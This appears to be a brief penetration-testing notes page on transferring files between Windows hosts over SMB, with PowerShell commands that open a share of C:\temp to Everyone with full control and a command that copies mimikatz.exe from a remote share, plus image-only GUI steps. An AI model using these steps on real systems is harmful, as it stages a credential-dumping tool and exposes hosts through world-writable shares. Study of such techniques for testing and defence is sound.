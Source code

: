 # SMB Share

<details>

<summary>Powershell Method</summary>

On Sender:

```
Set-SmbServerConfiguration -EnableSMB2Protocol $true -Force
net share PublicShare=C:\temp /GRANT:Everyone,FULL
```

On Receiver:

```
copy \\appsrv01\PublicShare\mimikatz.exe .
```

</details>

<details>

<summary>GUI Method</summary>

* Right click --> New --> Folder --> name it
  * ![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png>)\

* Right click folder --> Properties --> Sharing --> Advanced Sharing --> Share this folder --> Permissions
  *

      <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


  *

      <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

      <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


  * Set SMB Share permissions (Full Control --> allow for all)
    *

        <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


    *

        <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>
